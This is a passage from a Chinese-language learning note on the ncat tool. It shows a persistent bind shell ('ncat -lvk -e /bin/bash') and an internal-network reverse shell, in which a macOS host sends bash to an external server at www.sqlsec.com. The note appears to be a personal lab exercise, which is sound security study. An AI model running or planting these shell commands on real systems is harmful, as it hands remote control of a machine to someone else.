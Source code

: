 ```bash
Darwin X1cT34m-iMac 17.7.0 Darwin Kernel Version 17.7.0: Wed Apr 24 21:17:24 PDT 2019; root:xnu-4570.71.45~1/RELEASE_X86_64 x86_64COPY
```

### 持久监听

> `-k`: 客户端断掉连接时，服务端依然保持运行
> `-v`：现实指令执行过程细节

在macOS开启一个持久监听的nc

```bash
# sqlsec @ X1cT34m-iMac in ~ 
$ ncat -lvk -e  /bin/bash 2333COPY
```

此时使用Ubuntu去连接macOS:

```bash
# sqlsec @ ubuntu in ~ 
$ ncat 10.211.55.2 2333COPY
```

当Ubuntu客户端使用`CTRL + c`或`CTRL + d`断开连接的时候，macOS的ncat依然在运行，这样方便Ubuntu下次直接nc连进来。
![nc安全工具学习记录-小绿草信息安全实验室](https://dn-coding-net-tweet.codehub.cn/photo/2019/bef45a6a-1473-4377-9ec4-c9c192c40e3f.png)

## 内网弹shell

ncat简单调整是可以穿内网的

|   操作系统    |     IP地址     |
| :-----------: | :------------: |
| macOS 10.13.6 |      内网      |
|    CentOS     | www.sqlsec.com |

首先外网的CentOS服务器先监听本地端口：

> `-w`: 设置等待连线的时间秒数

```bash
# root @ x1ct34m in ~ 
$ ncat -lv 2333        
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333COPY
```

内网的macOS运行：

```bash
# sqlsec @ X1cT34m-iMac in ~
$ ncat -w 10 -e /bin/bash www.sqlsec.com 2333COPY
```

此时CentOS这边已经接受到了内网到macOS的bash了，可以交互执行masOS的命令：
